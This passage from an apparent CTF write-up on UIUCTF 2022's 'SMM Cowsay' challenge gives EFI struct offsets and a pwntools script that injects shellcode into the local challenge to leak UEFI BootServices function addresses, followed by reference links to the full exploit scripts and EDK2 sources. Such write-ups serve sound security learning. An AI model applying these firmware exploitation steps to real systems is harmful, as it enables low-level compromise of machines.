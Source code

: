 ```c
    EFI_CONFIGURATION_TABLE *  ConfigurationTable;   /*   112     8 */

    /* size: 120, cachelines: 2, members: 13 */
    /* sum members: 116, holes: 1, sum holes: 4 */
    /* last cacheline: 56 bytes */
} EFI_SYSTEM_TABLE;
```

This tells us that `BootServices` is at offset 96 in `SystemTable` (type
`EFI_SYSTEM_TABLE`). Likewise we can look at `EFI_BOOT_SERVICES` to see that
`LocateProtocol` is at offset `320` in
`BootServices`.

Setting things up with Python and pwtools, the code needed is as follows:

```python
# Little hack needed to disable pwntools from taking over the terminal with
# ncurses and breaking the output if we do conn.interactive() since the remote
# program outputs \r\n for newlines.
import os
os.environ['PWNLIB_NOTERM'] = '1'

from pwn import *

context(arch='amd64')

os.chdir('handout/run')
conn = process('./run.sh')
os.chdir('../..')

conn.recvuntil(b'Address of SystemTable: ')
system_table = int(conn.recvline(), 16)

log.info('SystemTable @ 0x%x', system_table)

conn.recvline()

code = asm(f'''
    mov rax, {system_table}
    mov rax, qword ptr [rax + 96]  /* SystemTable->BootServices */
    mov rbx, qword ptr [rax + 64]  /* BootServices->AllocatePool */
    mov rcx, qword ptr [rax + 320] /* BootServices->LocateProtocol */
''')
conn.sendline(code.hex().encode() + b'\ndone')

conn.recvuntil(b'RBX: 0x')
AllocatePool = int(conn.recvn(16), 16) # useful for later
conn.recvuntil(b'RCX: 0x')
LocateProtocol = int(conn.recvn(16), 16)

log.success('BootServices->AllocatePool   @ 0x%x', AllocatePool)
log.success('BootServices->LocateProtocol @ 0x%x', LocateProtocol)
```


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31